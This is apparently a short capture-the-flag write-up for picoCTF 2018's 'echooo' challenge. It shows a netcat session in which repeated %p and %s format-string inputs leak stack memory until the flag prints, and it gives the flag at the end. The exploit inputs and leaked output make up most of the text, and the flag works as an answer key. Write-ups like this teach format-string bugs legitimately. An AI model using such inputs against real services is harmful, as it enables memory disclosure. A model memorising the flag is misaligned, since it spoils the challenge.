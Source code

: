 > echooo - Points: 300 - (Solves: 269)
> This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell1.picoctf.com 57169. Source.

Since this is an echo challenge we start off by inputting a bunch of %p and seeing what it returns.

We then try to print everything that looks like an address as a string using %s.

After printing enough arguments we end up printing the flag.
```
nsa@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 57169
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %p %p %p %p %p %p
0x40 0xf77655a0 0x8048647 0xf779ca74 0x1 0xf7774490
> %p %s %s %s %p %s
0x40 llllyj@j `Dw 0x1 ii
> %p %p %p %p %p %p %p %p %p %p %p %p
0x40 0xf77655a0 0x8048647 0xf779ca74 0x1 0xf7774490 0xfff92324 0xfff9222c 0x490 0x811b008 0x25207025 0x70252070
> %p %s %s %s %p %s %s %s %p %s
 > picoCTF{foRm4t_stRinGs_aRe_DanGer0us_e3d226b2}
  0x490h$
```

Flag: `picoCTF{foRm4t_stRinGs_aRe_DanGer0us_e3d226b2}`
